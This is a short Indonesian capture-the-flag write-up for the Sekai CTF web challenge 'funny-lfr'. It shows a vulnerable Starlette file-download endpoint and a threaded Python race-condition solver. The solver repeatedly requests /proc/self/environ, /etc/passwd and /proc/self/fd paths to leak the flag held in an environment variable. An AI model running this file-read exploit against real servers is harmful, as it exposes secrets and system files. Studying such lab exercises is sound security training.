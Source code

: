 # funny-lfr Writeup - Web - Sekai CTF

Pada challenge diatas kita dihadapkan dengan web app yang memungkinkan kita untuk membaca file yang kita tentukan melalui parameter `http://<url>/?file=<nama-file>`. dan goals pada challenge kali ini adalah membaca environtment dari mesin target, yang mana di dalam environtment tersebut terdapat flag yang tersimpan di env `$FLAG`.

## Source Code
```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse, JSONResponse
from starlette.exceptions import HTTPException
import os

async def download(request):
    file_path = request.query_params.get("file")
    if not file_path:
        return JSONResponse({"error": "file parameter is missing"}, status_code=400)

    if not os.path.exists(file_path):
        return JSONResponse({"error": "file not found"}, status_code=404)

    return FileResponse(file_path)

app = Starlette(routes=[Route("/", endpoint=download)])
```
Tujuan kita adalah untuk membuka file `/proc/self/environ`, yang mana tidak bisa kita lakukan jika kita menuliskannya di parameter `file`,

kita bisa memanfaatkan `Race Condition` untuk membuka file tersebut, berikut merupakan kode solver untuk challenge diatas:

```python
import socket
import asyncio
from concurrent.futures import ThreadPoolExecutor

HOST = 'localhost'
PORT = 1337

class BaseAPI():
    def __init__(self, host=HOST, port=PORT):
        self.host = host
        self.port = port

    def visit(self, path):
        request = f"GET /?file={path} HTTP/1.1\r\nHost: {self.host}\r\nConnection: close\r\n\r\n"
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect((HOST,PORT))
            s.sendall(request.encode())
            response = []
            while True:
                data = s.recv(4096)
                if not data:
                    break
                response.append(data)
        return b"".join(response)

class API(BaseAPI):
    ...


def worker(api,path):
    res = api.visit(path)
    if b'SEKAI' in res:
        print(res)

async def main():
    api = API()
    paths = [
        "/proc/self/environ", "/etc/passwd", "/proc/self/fd/7",
        "/proc/self/fd/8", "/proc/self/fd/9", "/proc/self/fd/10",
        "/proc/self/fd/11", "/proc/self/fd/12",
    ]
    with ThreadPoolExecutor(max_workers=50) as executor:
        while True:
            futures = [executor.submit(worker, api, path) for _ in range(50) for path in paths]
            for future in futures:
                if future.result() is not None:
                    return
if __name__ == '__main__':
    asyncio.run(main())
```

Thankyou :)